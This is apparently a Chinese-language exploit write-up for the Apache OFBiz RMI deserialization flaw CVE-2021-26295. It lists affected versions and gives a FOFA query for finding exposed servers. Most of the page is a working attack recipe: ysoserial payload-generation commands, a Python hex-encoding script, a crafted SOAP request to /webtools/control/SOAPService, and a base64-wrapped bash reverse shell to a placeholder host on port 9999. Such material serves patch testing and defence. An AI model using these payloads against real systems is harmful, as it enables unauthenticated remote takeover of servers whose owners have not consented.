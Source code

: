 ```yaml
---
Title: Apache OFBiz RMI反序列化漏洞 CVE-2021-26295
---
```


# Apache OFBiz RMI反序列化漏洞 CVE-2021-26295

## 漏洞描述

OFBiz是基于Java的Web框架，包括实体引擎，服务引擎和基于小部件的UI。

近日，Apache OFBiz官方发布安全更新。Apache OFBiz 存在RMI反序列化前台命令执行，未经身份验证的攻击者可以使用此漏洞来成功接管Apache OFBiz，建议相关用户尽快测试漏洞修复的版本并及时升级。

## 漏洞影响

<a-checkbox checked>Apache OFBiz < 17.12.06</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGVfT0ZCaXoi">app="Apache_OFBiz"</a-button>
</a-checkbox>

## 漏洞复现

利用 `ysoserial`生成反序列化数据

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://xxx.xxx.xxx.xxx > payload.txt
```

```python
#!/usr/bin/python
#conding=utf8
import binascii
with open('payload.txt', 'rb') as payload_handle:
   content = payload_handle.read()
str_hex = binascii.hexlify(content)
print(str_hex)
```

发送请求包后查看Dnslog验证漏洞

```
POST /webtools/control/SOAPService 

<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><test:clearAllEntityCaches xmlns:test="http://ofbiz.apache.org/service/"><test:cus-obj>dnslog反序列化数据</test:cus-obj></test:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>
```

反弹Shell可以使用`ROME反序列化链`

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME  "bash -c {echo,xxxxxxxxxxxxxxxxxxxxxxx}|{base64,-d}|{bash,-i}" | xxd|cut -f 2,3,4,5,6,7,8,9 -d " "|tr -d ' '|tr -d '\n'

bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'   base64加密写入然后执行命令
```

![c3afc0d1-7dc6-4161-a0fd-901797bf1a31](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/c3afc0d1-7dc6-4161-a0fd-901797bf1a31.png)